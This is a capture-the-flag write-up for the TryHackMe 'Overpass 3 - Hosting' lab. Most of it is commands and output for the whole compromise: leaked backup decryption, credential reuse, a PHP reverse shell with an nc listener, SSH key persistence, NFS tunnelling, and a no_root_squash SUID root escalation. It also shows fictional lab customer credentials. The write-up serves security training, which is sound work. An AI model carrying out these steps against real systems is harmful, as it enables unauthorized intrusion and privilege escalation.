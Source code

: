 # Overpass 3 - Hosting

**Room link:** https://tryhackme.com/room/overpass3hosting

_A sequel to the easier [Overpass](https://tryhackme.com/room/overpass) and [Overpass 2](https://tryhackme.com/room/overpass2hacked) rooms._

1. `nmap` reveals FTP, SSH and HTTP services on default ports.

2. `gobuster` on the website reveals a hidden `backups` directory containing a `backup.zip` file. This archive contains an encrypted `CustomerDetails.xlsx.gpg` file and a PGP private key `priv.key`. Let us decrypt.

```
$ gpg --import priv.key
...
$ gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
```

Open the file, e.g. using LibreOffice, and export is as CSV.

```
$ cat CustomerDetails.csv         
Customer Name,Username,Password,Credit card number,CVC
Par. A. Doxx,paradox,****REDACTED*****,4111 1111 4555 1142,432
0day Montgomery,0day,OllieIsTheBestDog,5555 3412 4444 1115,642
Muir Land,muirlandoracle,A11D0gsAreAw3s0me,5103 2219 1119 9245,737
```

We get some credentials.

3. Trying these credentials, we gain access to the FTP as `paradox`. This gives us access to the website directory with `rwx` rights on its root directory! Upload a PHP reverse shell, get in (as `apache`) and grab the **web flag**.

```
$ nc -lnp 4444 
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:13:16 up  1:39,  0 users,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (852): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ find / -name '*flag*' -type f 2> /dev/null
...
/usr/share/httpd/web.flag
sh-4.4$ cat /usr/share/httpd/web.flag
**REDACTED**
```

4. There seems to be two interesting users on the machine: `james` and `paradox`. Upgrade the terminal and simply log in as `paradox` using the same password as before.

```
sh-4.4$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo; fg
bash-4.4$ su paradox
Password: 
[paradox@localhost /]$ cd
[paradox@localhost ~]$ ls -la
total 56
drwx------. 4 paradox paradox   203 Nov 18 18:29 .
drwxr-xr-x. 4 root    root       34 Nov  8 19:34 ..
-rw-rw-r--. 1 paradox paradox 13353 Nov  8 21:23 backup.zip
lrwxrwxrwx. 1 paradox paradox     9 Nov  8 21:45 .bash_history -> /dev/null
-rw-r--r--. 1 paradox paradox    18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 paradox paradox   141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 paradox paradox   312 Nov  8  2019 .bashrc
-rw-rw-r--. 1 paradox paradox 10019 Nov  8 20:37 CustomerDetails.xlsx
-rw-rw-r--. 1 paradox paradox 10366 Nov  8 21:18 CustomerDetails.xlsx.gpg
drwx------. 4 paradox paradox   132 Nov  8 21:18 .gnupg
-rw-------. 1 paradox paradox  3522 Nov  8 21:16 priv.key
drwx------  2 paradox paradox    47 Nov 18 18:32 .ssh
[paradox@localhost ~]$ ls -la .ssh/
total 8
drwx------  2 paradox paradox  47 Nov 18 18:32 .
drwx------. 4 paradox paradox 203 Nov 18 18:29 ..
-rw-------  1 paradox paradox 583 Nov 18 18:29 authorized_keys
-rw-r--r--  1 paradox paradox 583 Nov 18 18:29 id_rsa.pub
```

Let us upload our own SSH public key to the target, e.g. using the FTP access (to write into `/var/www/html/`), and add it to `paradox`' `authorized_keys`.

```
[paradox@localhost ~]$ mv /var/www/html/id_rsa.pub .ssh/
[paradox@localhost ~]$ cd .ssh 
[paradox@localhost .ssh]$ cat id_rsa.pub >> authorized_keys
```

We now have a proper SSH access to the target as `paradox`.

5. Using an enumeration script (e.g. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) uploaded using `scp`), we discover that `james`' home directory is a NFS share with the infamous `no_root_squash` option.

```
[paradox@localhost ~]$ cat /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

Unfortunately the NFS server is not accessible from outside...

6. But we can SSH-tunnel the NFS server ports. First of all, identify these ports.

```
[paradox@localhost ~]$ rpcinfo -p | egrep 'tcp.+(mountd|nfs)'
    100005    1   tcp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```

Then on our local machine, create an SSH tunnel linking target ports 2049 (default NFS) and 20048 to some local ports (6000 and 6001 here). Mount the NFS share and grab the **user flag**.

```
$ ssh -fNv -L 6000:$TARGET_IP:2049 -L 6001:$TARGET_IP:20048 paradox@$TARGET_IP
...
$ mkdir /tmp/nfs
$ sudo mount -t nfs -o port=6000,mountport=6001,tcp localhost:/home/james /tmp/nfs
...
$ cd /tmp/nfs 
$ cat user.flag
**REDACTED**
```

7. At this point, we have access to `james`' private key `/tmp/nfs/.ssh/id_rsa` and could use it to log in as `james` through SSH, but we do not actually need to be that subtle. Let us simply become `root` locally, open `james`' home to everyone and copy our own `bash` there to give it SUID.

```
$ sudo su
# chown root /tmp/nfs
# chgrp root /tmp/nfs
# chmod +rwx /tmp/nfs
# cp /bin/bash /tmp/nfs/rootbash
# chmod +s /tmp/nfs/rootbash
```

Then still as `paradox` on the target, become `root` and grab the **root flag**.

```
[paradox@localhost home]$ /home/james/rootbash -p
rootbash-5.0# cat /root/root.flag 
**REDACTED**
```


## Cleaning

Delete the imported PGP keys.

```
$ gpg --list-keys
...
pub   rsa2048 2020-11-08 [SC] [expire : 2022-11-08]
      49829BBEB100BB2692F33CD2C9AE71AB3180BC08
uid          [ inconnue] Paradox <paradox@overpass.thm>
sub   rsa2048 2020-11-08 [E] [expire : 2022-11-08]

$ gpg --delete-secret-and-public-keys 49829BBEB100BB2692F33CD2C9AE71AB3180BC08
```

Unmount the NFS share (use option `-f` if the connection was lost).

```
$ sudo umount /tmp/nfs
```

Kill the SSH tunnel.

```
$ ps -ef | grep ssh
...
*******    44066       1  0 16:51 ?        00:00:00 ssh -fNv -L 6000:10.10.**.***:2049 -L 6001:10.10.**.***:20048 paradox@10.10.**.***
...
$ kill 44066
```
